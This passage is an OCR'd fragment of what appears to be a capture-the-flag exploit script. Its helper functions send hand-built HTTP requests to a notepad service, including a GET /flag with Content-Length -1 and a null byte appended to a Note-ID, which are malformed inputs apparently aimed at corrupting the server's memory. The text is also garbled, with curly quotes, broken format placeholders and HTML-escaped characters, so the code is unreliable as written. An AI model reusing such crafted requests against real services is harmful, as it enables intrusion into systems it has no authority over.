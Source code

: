 def f(login_id):

    payload =  “GET /flag HTTP/1.1\r\n”

    payload += “Content-Length: -1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

​

def new_node(login_id, cont):

    payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Content-Length: `{``}`\r\n”.format(len(cont))

    payload += “Content-Type: application/x-www-form-urlencoded\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-Operation: new%20note\r\n”

    payload += “\r\n”

    payload += cont

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​

def delete_node(login_id, idx):

    payload =  “POST /notepad HTTP/1.1\r\n”

    payload += “Login-ID: `{``}`\r\n”.format(login_id)

    payload += “Note-ID: `{``}`%00\r\n”.format(idx)

    payload += “Note-Operation: delete%20note\r\n”

    payload += “Content-Length: 0\r\n”

    payload += “\r\n”

    io.send(payload)

    io.recvuntil(“&lt;/body&gt;&lt;/html&gt;\r\n”)

    # sleep(1)

​
